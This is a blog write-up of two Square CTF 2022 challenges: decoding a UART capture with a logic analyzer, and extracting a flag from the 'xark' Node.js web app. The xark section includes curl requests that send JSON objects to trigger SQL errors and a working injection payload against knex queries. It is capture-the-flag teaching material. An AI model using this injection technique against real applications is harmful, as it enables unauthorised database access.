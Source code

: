 ```yaml
---
title: "Square CTF 2022"
date: 2022-11-21
---
```


# Square CTF 2022

I participated in the [Square CTF 2022](https://squarectf.com/2022/index.html) this weekend which was my 2nd time for this ctf. It was a lot of fun again and I solved 2 challenges, [sqUARe paymenT terminal](https://squarectf.com/2022/squarepaymentterminal.html) and [xark](https://squarectf.com/2022/xark.html).

## sqUARe paymenT terminal
misc  

sqUARe paymenT terminal is a UART challenge. A `Terminal_Cap.sal` file is provided. 

checking out the file:
```sh
$ file Terminal_Cap.sal
Terminal_Cap.sal: Zip archive data, at least v2.0 to extract, compression method=deflate

$ unzip Terminal_Cap.sal 
Archive:  Terminal_Cap.sal
  inflating: digital-0.bin           
  inflating: digital-1.bin           
  inflating: digital-2.bin           
  inflating: digital-3.bin           
  inflating: digital-4.bin           
  inflating: digital-5.bin           
  inflating: digital-6.bin           
  inflating: digital-7.bin           
  inflating: meta.json
```

We have 8 binary files and a `meta.json`. The file is long, but has some good clues:

<details>
  <summary>meta.json</summary>
  <pre id="json">             
  {
    "version": 15,
    "data": {
      "renderViewState": {
        "leftEdgeTimeSec": 2.347354838709678,
        "timeSecPerPixel": 0.0072688172043010755
      },
      "captureProgress": {
        "maxCollectedTime": 10.815999999999999,
        "processedInterval": {
          "begin": 0,
          "end": 10.837333333333333
        },
        "memoryUsedMb": 0,
        "isProcessing": false
      },
      "captureStartTime": {
        "unixTimeMilliseconds": 1667595522858,
        "fractionalMilliseconds": 0.56
      },
      "timingMarkers": {
        "markers": {},
        "pairs": {}
      },
      "measurements": [],
      "highLevelAnalyzers": [],
      "analyzers": [],
      "rowsSettings": [
        {
          "id": "b718c61e-499e-4190-bdcc-c2490165f32e",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 0",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 0
          }
        },
        {
          "id": "25e5f4a8-f0b4-4c4f-86f4-1e6148d47b30",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 1",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 1
          }
        },
        {
          "id": "c37287c6-be0a-4a06-8644-de1dcc84b038",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 2",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 2
          }
        },
        {
          "id": "39cc1040-bd89-4faf-ba36-d9884cc968d8",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 3",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 3
          }
        },
        {
          "id": "5c1c9b4e-ccb2-4e00-bea4-e257d2aa5785",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 4",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 4
          }
        },
        {
          "id": "8d93d75b-0896-4a10-a1ab-186cea0b80a3",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 5",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 5
          }
        },
        {
          "id": "fac1b78b-623e-48ee-8e47-0573eca9ddfb",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 6",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 6
          }
        },
        {
          "id": "97185903-d1b4-455c-9dd4-ad41686ae1ba",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 7",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 7
          }
        }
      ],
      "captureSettings": {
        "bufferSizeMb": 3072,
        "captureMode": "Circular",
        "stopAfterSeconds": 100,
        "trimAfterCapture": false,
        "trimTimeSeconds": 5,
        "digitalTriggerSettings": {
          "type": {
            "mode": "Edge",
            "name": "Rising",
            "pattern": "Rising"
          },
          "timeAfterTriggerToStop": 1,
          "linkedChannels": [],
          "duration": {
            "min": 0.001,
            "max": 0.01
          }
        },
        "glitchFilter": {
          "enabled": false,
          "channels": []
        },
        "connectedDevice": {
          "name": "Logic",
          "deviceId": "10367413859617842647",
          "deviceType": "Logic",
          "isSimulation": false,
          "capabilities": {
            "channelCapabilities": [
              {
                "type": "Digital",
                "index": 0,
                "capability": "AlwaysEnabled"
              },
              {
                "type": "Digital",
                "index": 1,
                "capability": "AlwaysEnabled"
              },
              {
                "type": "Digital",
                "index": 2,
                "capability": "AlwaysEnabled"
              },
              {
                "type": "Digital",
                "index": 3,
                "capability": "AlwaysEnabled"
              },
              {
                "type": "Digital",
                "index": 4,
                "capability": "AlwaysEnabled"
              },
              {
                "type": "Digital",
                "index": 5,
                "capability": "AlwaysEnabled"
              },
              {
                "type": "Digital",
                "index": 6,
                "capability": "AlwaysEnabled"
              },
              {
                "type": "Digital",
                "index": 7,
                "capability": "AlwaysEnabled"
              }
            ],
            "sampleRateOptions": [
              {
                "digital": 24000000
              },
              {
                "digital": 16000000
              },
              {
                "digital": 12000000
              },
              {
                "digital": 8000000
              },
              {
                "digital": 4000000
              },
              {
                "digital": 2000000
              },
              {
                "digital": 1000000
              },
              {
                "digital": 500000
              },
              {
                "digital": 250000
              },
              {
                "digital": 200000
              },
              {
                "digital": 100000
              },
              {
                "digital": 50000
              },
              {
                "digital": 25000
              }
            ],
            "isPhysicalDevice": true
          },
          "settings": {
            "enabledChannels": [
              {
                "type": "Digital",
                "index": 0
              },
              {
                "type": "Digital",
                "index": 1
              },
              {
                "type": "Digital",
                "index": 2
              },
              {
                "type": "Digital",
                "index": 3
              },
              {
                "type": "Digital",
                "index": 4
              },
              {
                "type": "Digital",
                "index": 5
              },
              {
                "type": "Digital",
                "index": 6
              },
              {
                "type": "Digital",
                "index": 7
              }
            ],
            "sampleRate": {
              "digital": 24000000
            }
          }
        }
      },
      "digitalTriggerTime": -1,
      "name": "Session 0",
      "dataTable": {
        "columns": {
          "analyzerIdentifier": {
            "isActive": true,
            "width": 18,
            "isDefault": true,
            "baseKey": "analyzerIdentifier",
            "excludeFromSearch": true
          },
          "frameType": {
            "isActive": true,
            "width": 75,
            "isDefault": true,
            "baseKey": "frameType",
            "excludeFromSearch": false
          },
          "start": {
            "isActive": true,
            "width": 110,
            "isDefault": true,
            "baseKey": "start",
            "excludeFromSearch": true
          },
          "duration": {
            "isActive": true,
            "width": 80,
            "isDefault": true,
            "baseKey": "duration",
            "excludeFromSearch": true
          },
          "data_data": {
            "width": 75,
            "baseKey": "data",
            "isActive": false
          },
          "data_error": {
            "width": 75,
            "baseKey": "error",
            "isActive": false
          }
        }
      },
      "analyzerTrigger": {
        "settings": {
          "enabled": false,
          "searchQuery": "",
          "holdoffSeconds": 0.2
        }
      },
      "timeManager": {
        "t0": {
          "type": "startOfCapture"
        }
      },
      "captureNotes": ""
    },
    "binData": [
      {
        "type": "Digital",
        "index": 0,
        "file": "./digital-0.bin"
      },
      {
        "type": "Digital",
        "index": 1,
        "file": "./digital-1.bin"
      },
      {
        "type": "Digital",
        "index": 2,
        "file": "./digital-2.bin"
      },
      {
        "type": "Digital",
        "index": 3,
        "file": "./digital-3.bin"
      },
      {
        "type": "Digital",
        "index": 4,
        "file": "./digital-4.bin"
      },
      {
        "type": "Digital",
        "index": 5,
        "file": "./digital-5.bin"
      },
      {
        "type": "Digital",
        "index": 6,
        "file": "./digital-6.bin"
      },
      {
        "type": "Digital",
        "index": 7,
        "file": "./digital-7.bin"
      }
    ]
  }
  </pre>
</details>

The main clue that helped me was `"captureMode": "Circular"`. Googling this line led to the discussion forum of the [Saleae Logic 2](https://discuss.saleae.com/) logic analyzer. We download the software from the site and use it to open the capture file. 

![terminalcap_saleae]({{"../assets/2022-11-21-Square_CTF_0222/terminalcap_saleae.png" | relative_url }})

### figuring out the software

[Lots](https://en.wikipedia.org/wiki/Universal_asynchronous_receiver-transmitter) [of](https://support.saleae.com/protocol-analyzers/analyzer-user-guides/using-async-serial/decode-uart) [reading](https://support.saleae.com/protocol-analyzers/analyzer-user-guides/using-async-serial) plus trial and error in the Logic software helped find the bitrate of the capture. By zooming into one part of the signal and highlighting the sample, we can see the baud rate.

![big_analysis_mode]({{"../assets/2022-11-21-Square_CTF_0222/big_analysis_mode.png" | relative_url }})

Googling around again gets 38.4 kHz baud rate = 38400 bits/s. Enter this into the Async Serial Analyzer and we get our flag in the terminal view of the analyzer output.

![big_analysis_mode_2]({{"../assets/2022-11-21-Square_CTF_0222/big_analysis_mode_2.png" | relative_url }})  

![big_analysis_mode_3]({{"../assets/2022-11-21-Square_CTF_0222/big_analysis_mode_3.png" | relative_url }})


## xark
web  

xark is an anonymous messaging website with provided source files. When a user puts a message in the left pane, it is saved to a database. When a user puts their name into the right pane, all messages in the database that were addressed to them are shown. Sending SQL injections and xss payloads do not seem to have an effect on the page.

[Source](https://squarectf.com/2022/data/xark.zip) files are provided and we can see the website is using express and node. 

![xark mainpage]({{"../assets/2022-11-21-Square_CTF_0222/xark.png" | relative_url }})

### looking around 👀

We have 3 endpoints in `index.js`: `/debug`, `/record`, and `/data`. `/record` and `/data` are the "Record" and "View" crush message endpoints, respectively.

`/debug` shows us the config info 

```js
app.get('/debug', async (req, res) => {
    // poor man's clone
    const c = JSON.parse(JSON.stringify(config.get('knex')));
    if (c.connection.password) {
        c.connection.password = "*******";
    }
    res.status(200).send(c);
})
```

output from `/debug`: 
```json
{"client":"mysql","connection":{"host":"database","port":"3306","user":"xark","password":"*******","database":"xark","charset":"utf8mb4"}}
```
  

There is a package called knex being used that queries the database. We also know the flag is inserted into the db when it is created.

```js
const knex = require('knex')(config.get('knex'));

knex.schema.hasTable('crushes').then(function(exists) {
    if (!exists) {
        console.log("crushes table doesn't exist, initializing...");
        knex.schema.createTable('crushes', function(table) {
            table.increments('id').primary();
            table.string('from').notNullable();
            table.string('to').notNullable();
            table.string('message').notNullable();
            table.index(['to']);
        }).then();
        knex('crushes').insert({
            from: config.init.flag,
            to: config.init.flag,
            message: 'This is the flag!',        // <- how to get this?
        }).then();
    }
});
```

An old version of knex was vulnerable to sql injection ([cve](https://www.cvedetails.com/cve/CVE-2019-10757/))  . We know from package.json (`"knex": "^2.3.0",`) that this version of knex is not vulnerable to this.

### sending json

It seems that we must be able to pull this flag out of the db using the `/data` endpoint. But it we only have control of the line `to: req.body.to`.
```js
app.post('/data', async (req, res) => {
    if (req.body.to) {
        const crushes = await knex('crushes')
            .select()
            .where({
                to: req.body.to         // <- user control
            })
            .limit(50);
        res.send(crushes);
    } else {
        res.status(400).send({});
    }
});
```

If we backtrack a few lines in `index.js`, we find lines 34-36, which have an interesting import 
```js
app.use(express.urlencoded({
    extended: false
}));
```
Going through the [express docs](https://expressjs.com/en/api.html#express.urlencoded), we find that `express.urlencoded()`:

>Returns middleware that only parses urlencoded bodies and only looks at requests where the Content-Type header matches the type option.

In the parameters for `urlencoded()`, the default value for the `type` parameter is `"application/x-www-form-urlencoded"`. So if we send json, does the middleware not look at the request?

Sending some json, we can see the errors from the sql queries returned in json.
```sh
$ curl -d '{"to":"n","from":"m","message":["a","b"]}' -H "Content-Type: application/json" -X POST http://chals.2022.squarectf.com:4105/record
{"error":"insert into `crushes` (`from`, `message`, `to`) values ('m', 'a', 'b', 'n') - ER_WRONG_VALUE_COUNT_ON_ROW: Column count doesn't match value count at row 1"}%

$ curl -d '{"to":["n","m"]}' -H "Content-Type: application/json" -X POST http://chals.2022.squarectf.com:4105/data
{"error":"select * from `crushes` where `to` = 'n', 'm' limit 50 - ER_PARSE_ERROR: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ', 'm' limit 50' at line 1"}%
```

### solution

We get the flag by sending a request with `{"id":0}` in the `"to:"` field.

```sh
$ curl -d '{"to": {"id":0} }' -H "Content-Type: application/json" -X POST http://chals.2022.squarectf.com:4105/data
[{"id":1,"from":"flag{kn3x3d_chall3ng3_pls}","to":"flag{kn3x3d_chall3ng3_pls}","message":"This is the flag!"},{"id":2,"from":"a","to":"b","message":"...
<...>
```